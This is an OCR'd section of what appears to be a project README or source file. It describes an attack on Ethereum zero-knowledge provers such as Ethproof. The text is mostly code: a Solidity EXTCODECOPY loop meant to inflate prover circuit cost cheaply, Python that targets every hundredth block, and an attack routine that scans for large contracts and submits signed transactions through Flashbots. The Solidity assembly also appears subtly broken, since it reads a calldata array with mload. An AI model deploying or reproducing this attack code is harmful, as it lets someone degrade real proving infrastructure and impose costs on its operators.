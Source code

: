 ## Implementation Details

### Gas Optimization

The attack is designed to maximize ZK circuit complexity while minimizing gas costs:

```solidity
// Optional gas-optimized EXTCODECOPY variant
function executeAttackWithCopy(address[] calldata targets) external {
    for (uint256 i = 0; i < targets.length; i++) {
        uint256 size = targets[i].code.length;
        assembly {
            extcodecopy(
                mload(add(targets, mul(i, 32))), // target address
                0x80,                            // memory offset
                0,                               // code offset
                size                            // length
            )
        }
    }
}
```

### Block Targeting

The system targets specific blocks for maximum impact:

```python
def is_target_block(self, block_number: int) -> bool:
    """Targets blocks that Ethproof provers focus on"""
    return block_number % 100 == 0

async def get_next_target_block(self) -> int:
    current = await self.w3.eth.block_number
    return current + (100 - (current % 100))
```

### Error Handling

Robust error handling throughout the system:

```python
async def execute_attack(self) -> AttackResult:
    try:
        contracts = await self.scanner.find_large_contracts()
        if not contracts:
            raise NoTargetContractsError("No suitable contracts found")
            
        tx = self.tx_generator.create_attack_transaction(contracts)
        signed = self.account.sign_transaction(tx)
        
        target_block = await self.get_next_target_block()
        result = await self.flashbots.submit_bundle(signed.rawTransaction, target_block)
        
        return AttackResult(
            success=bool(result),
            target_block=target_block,
            contracts=contracts
        )
    except Exception as e:
        logger.error(f"Attack failed: {str(e)}")
        raise AttackExecutionError(f"Attack failed: {str(e)}") from e
```
